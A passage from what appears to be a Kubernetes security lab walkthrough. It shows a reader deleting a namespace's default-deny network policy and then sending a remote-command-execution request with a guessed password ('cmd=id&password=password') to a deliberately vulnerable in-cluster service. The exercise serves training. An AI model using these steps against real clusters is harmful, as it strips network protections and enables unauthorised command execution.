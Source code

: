 74.  Let's look for network policies:

        ```shell
        kubectl -n phreaks-nynex-kingdom get networkpolicies
        ```

75. Notice that there is one network policy named `default-deny-all`. Here's the output from our test system:

    ```
    NAMESPACE               NAME               POD-SELECTOR   AGE
    phreaks-nynex-kingdom   default-deny-all   <none>         9h
    ```

76. We can learn more about that network policy with `describe`:

    ```shell
    kubectl -n phreaks-nynex-kingdom describe networkpolicies
    ```

77. Notice that this network policy blocks all incoming network traffic to every pod in the `phreaks-nynex-kingdom` namespace. Here's en excerpt from the output on our test system:

    ```
    PodSelector:     <none> (Allowing the specific traffic to all pods in this namespace)
    Allowing ingress traffic:
      <none> (Selected pods are isolated for ingress connectivity)
    Not affecting egress traffic
    Policy Types: Ingress
    ```

78. Let's try deleting the network policy!

    ```shell
    kubectl -n phreaks-nynex-kingdom delete networkpolicy default-deny-all
    ```

79. It worked! Let's try our curl again:

    ```shell

    curl -k --connect-timeout 5 \
     http://whats-the-password-rce.phreaks-nynex-kingdom.svc.cluster.local:46231
    ```

80. You're asked for a password and command.  Here's the output from our test system:

    ```
    / requires two parameters: password and cmd
    ```

81. For the command, we'll use "id". For the password, let's try "password".  Note: the URL is very long, so we're going to put it in a variable to make this easier to read:

    ```shell

    url="http://whats-the-password-rce.phreaks-nynex-kingdom:46231"
    curl -sk  ${url}/?cmd=id\&password=password
    ```
